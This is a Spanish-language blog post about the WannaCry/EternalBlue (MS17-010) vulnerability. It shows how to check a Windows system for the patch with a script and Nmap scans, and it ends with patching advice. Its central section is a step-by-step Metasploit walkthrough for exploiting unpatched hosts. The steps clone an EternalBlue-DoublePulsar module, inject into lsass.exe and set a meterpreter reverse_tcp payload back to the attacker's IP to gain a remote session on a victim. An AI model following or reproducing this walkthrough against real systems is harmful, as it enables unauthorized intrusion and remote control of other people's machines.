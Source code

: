 ```yaml
---
layout: post
title: "Parche contra el exploit de WannaCry y atacando con EternalBlue el exploit que uso WannaCry"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

El vector de propagación del malware WANNACRY se vale de una vulnerabilidad en SMB, desde el 14 de marzo, Microsoft resolvió el problema 
a través del parche de seguridad MS17-010, para todas las versiones de Windows.

Empecemos por verificar si nuestro sistema está parcheado contra este exploit llamado EternalBlue, ten en cuenta que se vienen más 
ataques aprovechándose de esta vulnerabilidad.

Para eso descargamos el siguiente script que revisa los archivos de actualización en el sistema y busca aquellos correspondientes al 
parche de EternalBlue.
[Puedes descargar estes script desde este enlace](https://github.com/eset-la/Check-EternalBlue).
{% include image.html url="http://bit.ly/2pYjhUr" %}
{% include image.html url="http://bit.ly/2rj86tq" %}

2 Como segunda opción podemos usar el script NSE de Nmap para detectar equipos Windows vulnerables a la ejecución de código remoto ms17-010 
que el pasado domingo publicó nuestro buen amigo Calderpwn.
```
https://github.com/cldrn/nmap-nse-scripts/blob/master/scripts/smb-vuln-ms17-010.nse
```
Modo de uso:
-Para verificar que un equipo está parchado o no:
`$ nmap -p445 --script smb-vuln-ms17-010 <objetivo>`
-Para verificar que no tenga el implante DOUBLE PULSAR:
`$ nmap -p445 --script smb-double-pulsar-backdoor <objetivo>`

### EXPLOTANDO MS17-010

EternalBlue es el nombre del exploit que le permite a WannaCrypt autoreplicarse y propagarse rápidamente por la red infectada. 
Al parecer, fue desarrollado por la NSA y pertenece a la lista de archivos filtrados por el grupo Shadow Brokers.

ETERNALBLUE es el único que puede ser usado para atacar Windows 7 y Windows Server 2008 sin necesidad de autenticación. Luego, podemos 
utilizar DOUBLEPULSAR para inyectar remotamente una DLL maliciosa en el equipo previamente atacado con ETERNALBLUE. Teniendo en cuenta que podemos inyectar la DLL que queramos, crearemos mediante Empire, una DLL maliciosa que realice una conexión inversa desde el equipo víctima hacia el equipo atacante.

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos lo siguiente:
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```
{% include image.html url="http://bit.ly/2rwjAXA" %}

Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2pQqYQy" %}

Copiamos el modulo (eternalblue_doublepusar.rb)  a metasploit,en la carpeta donde se encuentran los exploits para SMB de Windows.
{% include image.html url="http://bit.ly/2qXpGTZ" %}

Abrimos Metasploit, seleccionaremos el exploit que acabamos de añadir 
`use exploits/windows/smb/eternalblue_doublepulsar`  
Con show options nos mostrara los parámetros que le debemos de configurar:
{% include image.html url="http://bit.ly/2q1b6pE" %}

En los parámetros `DOUBLEPULSARPATH y ETERNALBLUEPATH` ponemos el directorio donde se encuentra la carpeta “deps” que hemos descargado previamente.
En `PROCESSINJECT` recibe el nombre del proceso donde va a ser inyectado en la máquina target el payload, si nuestro target es de x64 cambiamos el proceso wlms.exe a lsass.exe. Si el target es un x86, debemos dejarlo en wlms.exe.
En `RHOST` ponemos la IP de la máquina a atacar.
En `WINEPATH` ponemos el directorio donde se encuentra el “drive_c” de WINE.
{% include image.html url="http://bit.ly/2rwmfAD" %}


Ponemos el payload que vamos a utilizar:
`set payload windows/x64/meterpreter/reverse_tcp`
{% include image.html url="http://bit.ly/2pQaXd7" %}
Configuramos el payload con:
set `LHOST` ip del atacante
El puerto lo dejaremos por default en el 4444

06 Por ultimo lanzamos con exploit 
{% include image.html url="http://bit.ly/2qBOo9a" %}
Como verán ya hemos accedido al sistema Windows, solo requerimos la dirección IP de la víctima y nos devolverá una sesión de meterpreter.

### Recomendaciones

Si tu equipo es vulnerable [simplemente instala el parche](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx).
{% include image.html url="http://bit.ly/2p5wDSj" %}

1.- Click en Windows Update
2.- Instalar actualizaciones 
3.-Antivirus actualizado
4.-No abrir archivos adjuntos en correos que no identifican! 

By Torres Happy Hacking
